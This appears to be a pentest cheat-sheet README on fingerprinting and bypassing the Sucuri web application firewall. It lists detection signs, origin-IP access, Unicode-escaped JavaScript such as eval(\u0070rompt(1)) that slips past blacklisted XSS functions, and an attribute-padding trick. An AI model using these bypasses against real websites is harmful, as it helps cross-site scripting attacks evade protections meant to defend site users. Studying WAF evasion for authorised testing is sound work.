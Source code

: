 # WAF_bypass

## Securi WAF

### Detection

- Detectability: Easy
Detection Methodology:
- Response headers may contain Sucuri or Cloudproxy keywords.
- Blocked response page contains the following text snippet:
- Access Denied - Sucuri Website Firewall text.
- Reference to https://sucuri.net/privacy-policy URL.
- Sometimes the email cloudproxy@sucuri.net.
- Contains copyright notice ;copy {year} Sucuri Inc.
- Response headers contains X-Sucuri-ID header along with normal requests.

---

### Bypasses

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```
  
  alert
  ```js
  \u0061lert(0)
  eval(\u0061lert(0))
  ```
  
  ![carbon](https://user-images.githubusercontent.com/94630001/162410201-4e9d2c42-ede6-4c98-b384-76abdf437476.png)


  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

![image](https://user-images.githubusercontent.com/94630001/162407183-fb7e290d-2ade-4053-a519-1e4781d631f7.png)


### Help 

https://github.com/0xInfection/Awesome-WAF  

